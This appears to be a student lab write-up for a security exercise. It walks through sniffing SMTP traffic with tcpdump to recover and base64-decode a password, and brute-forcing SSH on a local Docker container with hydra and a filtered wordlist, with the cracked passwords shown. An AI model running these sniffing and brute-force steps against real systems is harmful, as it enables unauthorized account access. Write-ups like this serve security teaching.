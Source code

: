 ## Attack is the best defense

### For task 1 -


> Process
>> in `terminal 1`
```
sudo tcpdump -i eth0 port 587 -w smtp_capture.pcap
```

>> in `terminal 2`
```
./user_authenticating_into_server
```
when `./user_authenticating_into_server` finishes executing, stop process in `terminal 1`

then
`tcpdump -A -r smtp_capture.pcap` to inspect the sniffed data

#### Result
I got `bXlwYXNzd29yZDk4OTgh` as the probable password

using
```echo "bXlwYXNzd29yZDk4OTgh" | base64 --decode```
I got `mypassword9898!` as the password


### For task 2 -

> Process
>> After starting the docker container/server -
```
sudo docker run -p 2222:22 -d -ti sylvainkalache/264-1
```
and cleaning the ./password_dictionary.txt file (retaining only passwords of char. length 11) -
```
sed -i '/^.\{11\}$/!d' password_dictionary.txt
```

I used
```
hydra -l sylvain -P ./password_dictionary.txt -s 2222 ssh://127.0.0.1
```

#### Result
I got the hydra response
```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-07-07 13:55:48
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 22495 login tries (l:1/p:22495), ~1406 tries per task
[DATA] attacking ssh://127.0.0.1:2222/
[2222][ssh] host: 127.0.0.1   login: sylvain   password: password123
1 of 1 target successfully completed, 1 valid password found
```
with `password123` as the password

### Resources
password_dictionary.txt source is the Kaggle bruteforce-database-passwords originally named
`1000000-password-seclists.txt` - [Download Repo](https://www.kaggle.com/datasets/taranvee/bruteforce-database-password-dictionaries?resource=download)
